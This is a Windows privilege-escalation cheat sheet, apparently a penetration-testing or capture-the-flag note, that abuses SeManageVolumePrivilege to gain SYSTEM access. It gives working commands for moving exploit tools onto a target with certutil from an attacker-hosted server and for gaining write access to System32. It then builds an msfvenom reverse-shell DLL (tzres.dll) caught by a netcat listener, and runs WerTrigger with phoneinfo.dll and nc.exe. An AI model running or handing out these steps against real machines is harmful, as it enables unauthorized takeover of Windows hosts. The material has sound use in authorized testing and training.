

### **STEP 1: CHECK CURRENT USER PRIVILEGES**

1.  Verify if current user has SeManageVolumePrivilege privileges by running:  
    `whoami /priv`  
    
    

    **NOTE:** If it is not enabled, proceed to the next step to enable it.

### **STEP 2: ENABLE SETAKEOWNERSHIPPRIVILEGE (OPTIONAL)**

2.  Download the EnableAllTokenPrivs.ps1 script to enable SeManageVolumePrivilege.  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  
    
    

    **NOTE:** Host the EnableAllTokenPrivs.ps1 script Using Python `python -m http.server 80`
    
3.  Transfer the binary to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    

    **NOTE:** To Enable the SeTakeOwnershipPrivilege privilege, import the script using:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify privileges,Ensure that SeManageVolumePrivilege is now enabled  
    `whoami /priv`  
    
    

    

### **DLL HIJACKING WITH MESTASPLOIT**

1.  To write any files in the C:\\ drive and that includes System32 we need to download SeManageVolumeExploit.exe and transfer it to target machine  
    `wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`  
    
    

    **NOTE:** After the download complete, host the file using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
2.  Use the following certutil commands to download the files to the target machine  
    `certutil -urlcache -f http://[IP-ADRESS]:80/SeManageVolumeExploit.exe SeManageVolumeExploit.exe`  
    
    

    
3.  After executing the exploit, we have gained write privileges to the `C:\Windows\System32\` folder.  
    
    

    
4.  Let's creat the .dll payload that will get us reverse shell. We will use msfvenom and name the payload tzres.dll.  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=1337 -f dll -o tzres.dll`  
    
    

    **NOTE:** Host the file using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
5.  Use the following certutil commands to download the payload to the target machine  
    `certutil -urlcache -f http://[IP-ADRESS]:80/tzres.dll tzres.dll`  
    
    

    **NOTE:** After transferring `tzres.dll` to the target machine, run the following command to place it in the wbem directory:  
    `copy tzres.dll C:\Windows\System32\wbem\`
    
6.  With that in place, set up your netcat listener on port 1337 on your attacking machine.  
    `rlwrap -cAr nc -lnvp 1337`  
    
    

    **NOTE:** run `systeminfo` to trigger the payload
    

### **EXPLOIT WITH WERTRIGGER**

1.  To write any files in the C:\\ drive and that includes System32 we need to download SeManageVolumeExploit.exe and transfer it to target machine  
    `wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`  
    
    

    **NOTE:** After the download complete, host the file using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
2.  After executing the exploit, we have gained write privileges to the `C:\Windows\System32\` folder.  
    
    

    
3.  Download the required exploit executables and DLL file using the commands provided below.  
    `wget https://github.com/sailay1996/WerTrigger/raw/master/bin/WerTrigger.exe`  
    `wget https://github.com/sailay1996/WerTrigger/raw/master/bin/phoneinfo.dll`  
    `wget https://raw.githubusercontent.com/sailay1996/WerTrigger/master/bin/Report.wer`  
    `cp /usr/share/windows-resources/binaries/nc.exe .`  
    
    

    **NOTE:** After the downloads are complete, host the files using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
4.  Use the following certutil commands to download the files to the target machine  
    `certutil -urlcache -f http://[IP-ADRESS]:80/WerTrigger.exe WerTrigger.exe`  
    `certutil -urlcache -f http://[IP-ADRESS]:80/phoneinfo.dll phoneinfo.dll`  
    `certutil -urlcache -f http://[IP-ADRESS]:80/nc.exe nc.exe`  
    `certutil -urlcache -f http://[IP-ADRESS]:80/Report.wer Report.wer`  
    
    

    
5.  Copy `phoneinfo.dll` to `C:\Windows\System32\`, place `Report.wer` and `WerTrigger.exe` in the same directory, and then run `WerTrigger.exe`.  

    

    **NOTE:** WerTrigger.exe will not produce any output and will just wait for you to type the instructions you want to perform.
    
6.  We have system level access on the target machine!  
    
    
